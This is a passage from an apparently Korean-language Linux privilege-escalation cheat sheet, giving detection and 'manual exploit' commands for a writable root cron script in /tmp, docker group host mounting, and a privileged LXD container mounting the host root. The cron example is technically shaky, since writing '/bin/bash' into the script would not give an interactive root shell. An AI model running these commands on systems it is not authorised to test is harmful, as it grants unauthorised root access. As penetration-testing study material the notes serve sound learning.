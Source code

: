 ### 🛠 시나리오

```bash
# /etc/cron.d/backup 실행 스크립트가 /tmp/backup.sh (root가 실행함)
ls -l /tmp/backup.sh  # 일반 사용자 쓰기 가능
```

### 💣 수동 익스플로잇

```bash
echo "/bin/bash" > /tmp/backup.sh
chmod +x /tmp/backup.sh
# 기다리면 루트 쉘
```

---

## 🧩 \[5] Docker Socket (docker 그룹)

### ✅ 개념

- docker 그룹은 사실상 root 권한임
- 도커 컨테이너를 root로 실행하고, 호스트에 마운트 가능

### 🔍 탐지

```bash
id
# docker 그룹 포함 여부
```

### 💣 수동 익스플로잇

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
whoami  # root
```

---

## 🧩 \[6] LXD 컨테이너 권한 상승

### ✅ 개념

- lxd 그룹은 이미지 임포트 후 컨테이너로 루트 실행 가능

### 💣 수동 익스플로잇 시나리오 (요약)

```bash
id  # lxd 그룹 있음

# 공격자 시스템에서 alpine 이미지 만들고 tar로 압축 후 대상에 전송
lxc image import lxd.tar.gz --alias pwned
lxc init pwned pwned -c security.privileged=true
lxc config device add pwned mydev disk source=/ path=/mnt/root recursive=true
lxc start pwned
lxc exec pwned -- /bin/sh
```

---